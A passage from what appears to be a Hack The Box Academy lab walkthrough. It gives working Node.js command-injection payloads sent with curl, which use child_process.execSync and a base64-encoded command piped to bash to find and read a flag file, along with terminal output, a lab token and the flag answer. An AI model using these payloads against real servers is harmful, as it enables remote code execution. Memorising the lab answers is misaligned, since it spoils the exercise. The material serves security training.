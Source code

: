 Code: shell

```shell
curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer <token>" -d "{ \"text\": \"' + require('child_process').execSync('echo ZmluZCAvIC1uYW1lIGZsYWcudHh0IDI+L2Rldi9udWxsCg== | base64 -d | bash').toString() + \\`'\\`, statusCode: 403})//\" }" http://STMIP:STMPO/api/service/generate
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-ta2msxvsf9]─[~]
└──╼ [★]$ curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwMTk4NTUsImV4cCI6MTcwMTEwNjI1NX0.P5EwsGE1obIPLHKjIH5U2kMV4R7Sa2I3w4QmWVpoEHQ" -d "{ \"text\": \"' + require('child_process').execSync('echo ZmluZCAvIC1uYW1lIGZsYWcudHh0IDI+L2Rldi9udWxsCg== | base64 -d | bash').toString() + \\`'\\`, statusCode: 403})//\" }" http://94.237.63.238:55661/api/service/generate

{"message":"The input \"/opt/flag.txt\n'"}
```

With the location of the flag revealed at `/opt/flag.txt`, students need to perform a second command injection, utilizing `cat` to read the flag:

Code: shell

```shell
curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer <token>" -d "{ \"text\": \"' + require('child_process').execSync('cat /opt/flag.txt').toString() + \\`'\\`, statusCode: 403})//\" }" http://STMIP:STMPO/api/service/generate
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-ta2msxvsf9]─[~]
└──╼ [★]$ curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwMTk4NTUsImV4cCI6MTcwMTEwNjI1NX0.P5EwsGE1obIPLHKjIH5U2kMV4R7Sa2I3w4QmWVpoEHQ" -d "{ \"text\": \"' + require('child_process').execSync('cat /opt/flag.txt').toString() + \\`'\\`, statusCode: 403})//\" }" http://94.237.63.238:55661/api/service/generate

{"message":"The input \"HTB{f!r57_r35p0nd3r}\n'"}
```

Answer: `HTB{f!r57_r35p0nd3r}`

# Blind Exploitation

## Question 1

### "The flag at '/flag.txt' consists of 3 digits. Try to use the payload from this section to find them, by iterating over \[0-9\] for each of the 3 digits (max 30 attempts needed)."
